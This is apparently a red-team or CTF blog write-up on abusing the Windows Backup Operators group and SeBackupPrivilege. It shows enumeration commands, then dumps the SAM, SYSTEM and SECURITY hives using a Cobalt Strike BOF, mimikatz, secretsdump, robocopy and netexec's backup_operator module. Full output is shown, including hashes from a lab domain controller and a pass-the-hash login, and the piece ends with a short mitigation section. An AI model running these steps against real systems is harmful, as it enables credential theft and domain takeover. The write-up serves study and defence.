According to [Microsoft docs](https://learn.microsoft.com/en-us/windows-server/identity/ad-ds/manage/understand-security-groups#backup-operators), this group:

> Members of the Backup Operators group can back up and restore all files on a computer, regardless of the permissions that protect those files. Backup Operators also can log on to and shut down the computer. This group can't be renamed, deleted, or removed. By default, this built-in group has no members, and it can perform backup and restore operations on domain controllers. Members of the following groups can modify Backup Operators group membership: default service Administrators, Domain Admins in the domain, and Enterprise Admins. Members of the Backup Operators group can't modify the membership of any administrative groups. Although members of this group can't change server settings or modify the configuration of the directory, they do have the permissions needed to replace files (including OS files) on domain controllers. Because members of this group can replace files on domain controllers, they're considered service administrators.
{: .prompt-tip}



## Enumeration

### ➜  with whoami bof
for [bof](https://github.com/trustedsec/CS-Situational-Awareness-BOF/tree/master/SA/whoami)



### ➜  with Seatbelt

for [Seatbelt](https://github.com/Flangvik/SharpCollection/blob/master/NetFramework_4.7_Any/Seatbelt.exe)



### ➜  with domain Groups
we can execute:
```sh
shell net user username /domain
```


and also if we have Bloodhound data we can also check with.



Now we are pretty sure for way so we can abuse.

## Exploitation

### ➜  with BackupPrivSam bof

For dump SAM,SYSTEM,SECURITY files im always using this [bof](https://github.com/m57/cobaltstrike_bofs)

➜ usage
```sh
BackupPrivSAM [\\computername] [save path] (optional: [domain] [username] [password])
```


so if we have SAM and SYSTEM files now mimikatz can extract and crack hashes from the SAM, SYSTEM, and SECURITY files on a Windows machine. Lets use [mimikatz](https://github.com/ParrotSec/mimikatz) for grab administrator hash
```sh
mimikatz privilege::debug; lsadump::sam /system:"C:\SYSTEM" /sam:"C:\SAM"
```


Also we can use secretsdump.py for extract hashes after install them localy.

Lets verify it.


Download them and use secretsdump
```sh
secretsdump.py -sam SAM -security SECURITY -system SYSTEM local
```



### ➜  For quick win at CTFs
while u playing ctfs or just wanna read some files at Administrator privileges u can use
```sh
powerpick robocopy /b C:\Users\Administrator\Desktop .; cat root.txt
```



## Linux Abuse
Since netexec is more popular nowadays and really stronger there is also backup_operator modules we can use directly.

### ➜ netexec backup_operator modules
```sh
➜  nxc smb 10.10.11.35 -u emily.oscars -p 'Q!3@Lp#M6b*7t*Vt' -M backup_operator
SMB         10.10.11.35     445    CICADA-DC        [*] Windows Server 2022 Build 20348 x64 (name:CICADA-DC) (domain:cicada.htb) (signing:True) (SMBv1:False)
SMB         10.10.11.35     445    CICADA-DC        [+] cicada.htb\emily.oscars:Q!3@Lp#M6b*7t*Vt
BACKUP_O... 10.10.11.35     445    CICADA-DC        [*] Triggering RemoteRegistry to start through named pipe...
BACKUP_O... 10.10.11.35     445    CICADA-DC        Saved HKLM\SAM to \\10.10.11.35\SYSVOL\SAM
BACKUP_O... 10.10.11.35     445    CICADA-DC        Saved HKLM\SYSTEM to \\10.10.11.35\SYSVOL\SYSTEM
BACKUP_O... 10.10.11.35     445    CICADA-DC        Saved HKLM\SECURITY to \\10.10.11.35\SYSVOL\SECURITY
SMB         10.10.11.35     445    CICADA-DC        [*] Copying "SAM" to "/root/.nxc/logs/CICADA-DC_10.10.11.35_2025-02-11_185959.SAM"
SMB         10.10.11.35     445    CICADA-DC        [+] File "SAM" was downloaded to "/root/.nxc/logs/CICADA-DC_10.10.11.35_2025-02-11_185959.SAM"
SMB         10.10.11.35     445    CICADA-DC        [*] Copying "SECURITY" to "/root.nxc/logs/CICADA-DC_10.10.11.35_2025-02-11_185959.SECURITY"
SMB         10.10.11.35     445    CICADA-DC        [+] File "SECURITY" was downloaded to "/root/.nxc/logs/CICADA-DC_10.10.11.35_2025-02-11_185959.SECURITY"
SMB         10.10.11.35     445    CICADA-DC        [*] Copying "SYSTEM" to "/root/.nxc/logs/CICADA-DC_10.10.11.35_2025-02-11_185959.SYSTEM"
SMB         10.10.11.35     445    CICADA-DC        [+] File "SYSTEM" was downloaded to "/root/.nxc/logs/CICADA-DC_10.10.11.35_2025-02-11_185959.SYSTEM"
BACKUP_O... 10.10.11.35     445    CICADA-DC        Administrator:500:aad3b435b51404eeaad3b435b51404ee:2b87e7c93a3e8a0ea4a581937016f341:::
BACKUP_O... 10.10.11.35     445    CICADA-DC        Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
BACKUP_O... 10.10.11.35     445    CICADA-DC        DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
BACKUP_O... 10.10.11.35     445    CICADA-DC        $MACHINE.ACC:plain_password_hex:6209748a5ab74c44bd98fc5015b6646467841a634c4a1b2d6733289c33f76fc6427f7ccd8f6d978a79eec3ae49eb8c0b5b14e193ec484ea1152e8a04e01a3403b3111c0373d126a566660a7dd083aec1921d53a82bc5129408627ae5be5e945ed58cfb77a2a50e9ffe7e6a4531febd965181e528815d264885921118fb7a74eff51306dbffa4d6a0c995be5c35063576fc4a3eba39d0168d4601da0a0c12748ae870ff36d7fb044649032f550f04c017f6d94675b3517d06450561c71ddf8734100898bf2c19359c69d1070977f070e3b8180210a92488534726005588c0f269a7e182c3c04b96f7b5bc4af488e128f8
BACKUP_O... 10.10.11.35     445    CICADA-DC        $MACHINE.ACC: aad3b435b51404eeaad3b435b51404ee:188c2f3cb7592e18d1eae37991dee696
BACKUP_O... 10.10.11.35     445    CICADA-DC        dpapi_machinekey:0x0e3d4a419282c47327eb03989632b3bef8998f71
dpapi_userkey:0x4bb80d985193ae360a4d97f3ca06350b02549fbb
BACKUP_O... 10.10.11.35     445    CICADA-DC        NL$KM:cc1501f764391e7a5e538cc174e62b01369b50b8d07223d9b6c56e922f5708d81eba8e8123250327364c19b496cd251f8ff97f5d71e66e8cffcbeb5e4ea4e696
SMB         10.10.11.35     445    CICADA-DC        [+] cicada.htb\Administrator:2b87e7c93a3e8a0ea4a581937016f341 (Pwn3d!)
BACKUP_O... 10.10.11.35     445    CICADA-DC        [*] Dumping NTDS...
SMB         10.10.11.35     445    CICADA-DC        [+] Dumping the NTDS, this could take a while so go grab a redbull...
SMB         10.10.11.35     445    CICADA-DC        [-] Could not connect: timed out
BACKUP_O... 10.10.11.35     445    CICADA-DC        [*] Cleaning dump with user Administrator and hash 2b87e7c93a3e8a0ea4a581937016f341 on domain cicada.htb
BACKUP_O... 10.10.11.35     445    CICADA-DC        [*] Successfully deleted dump files !
```
yeah its work fine but lets analyze this module!!!
### ➜ Analyze backup_operator.py
U can find [backup_operator.py](https://github.com/nikaiw/NetExec/blob/main/nxc/modules/backup_operator.py) here and we can analyze how its actually work.



### With reg.py

its actually different version of
https://x.com/mpgn_x64/status/1878899208465600756




```sh
➜  SeBackupPrivilege reg.py 'cicada.htb/emily.oscars:Q!3@Lp#M6b*7t*Vt'@10.10.11.35 backup -o 'C:\windows\temp\'
Impacket v0.13.0.dev0+20250404.133223.00ced47f - Copyright Fortra, LLC and its affiliated companies 

[!] Cannot check RemoteRegistry status. Triggering start trough named pipe...
[*] Saved HKLM\SAM to C:\windows\temp\\SAM.save
[*] Saved HKLM\SYSTEM to C:\windows\temp\\SYSTEM.save
[*] Saved HKLM\SECURITY to C:\windows\temp\\SECURITY.save
```

Okey nice! We have enough information about this topic now time to for the curious

## Mitigation: Removing SeBackupPrivilege from a User
To reduce risk, it's important to revoke SeBackupPrivilege from any non-essential users. Here’s how to do it:

>Press Win + R, type secpol.msc, and press Enter to open the Local Security Policy editor.

>In the left pane, navigate to: Local Policies → User Rights Assignment

>On the right side, locate the policy named: Back up files and directories (this corresponds to SeBackupPrivilege)

>Double-click the policy to open its properties. In the dialog that appears, select any users or groups you want to remove, then click Remove.

>Click Apply, then OK to confirm the changes.

By revoking this privilege, you significantly limit a user's ability to access protected system files and reduce lateral movement or privilege escalation risks.

